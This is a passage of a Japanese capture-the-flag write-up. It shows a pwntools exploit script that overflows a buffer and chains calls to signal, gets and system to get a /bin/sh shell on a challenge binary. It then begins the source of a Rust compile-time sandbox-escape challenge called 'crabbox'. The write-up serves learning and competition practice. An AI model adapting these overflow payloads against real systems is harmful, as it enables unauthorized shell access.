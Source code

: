```python
buf2 += p64(main) # error (arg2)
buf2 += p64(6) # status (arg1) != 0, 32bit, SIGABRT
buf2 += p64(signal)
buf2 += b"A" * 0x20 #overflow
r.send(buf2)

print(r.recv(0x20))
print(r.recvline())

buf3 = b""
buf3 += b"A" * 0x20 #key
buf3 += b"B" * 0x1f + b'\n' #buf
buf3 += p64(0) # error (arg2)
buf3 += p64(0x404000) # status (arg1) != 0, 32bit
buf3 += p64(gets)
r.send(buf3)

r.sendline(b"/bin/sh")

time.sleep(5) #🤢

buf4 = b""
buf4 += b"B" * 0x1f + b'\n' #buf
buf4 += p64(0) # error (arg2)
buf4 += p64(0x404000) # status (arg1) != 0, 32bit, "/bin/sh"
buf4 += p64(system)
r.send(buf4)

r.interactive()
```

`mprotect()`してシェルコード実行に持ち込む、`on_exit()`で`main()`に戻すなどの方法もあったみたいです。
{{<tweet user="shojin_comp" id="1703306637300417000">}}
{{<tweet user="moratorium08" id="1703332110596227311">}}

### crabbox (misc)
問題:
```python
import sys
import re
import os
import subprocess
import tempfile

FLAG = os.environ["FLAG"]
assert re.fullmatch(r"SECCON{[_a-z0-9]+}", FLAG)
os.environ.pop("FLAG")

TEMPLATE = """
fn main() {
    {{YOUR_PROGRAM}}

    /* Steal me: {{FLAG}} */
}
""".strip()

print("""
🦀 Compile-Time Sandbox Escape 🦀

Input your program (the last line must start with __EOF__):
""".strip(), flush=True)

program = ""
```
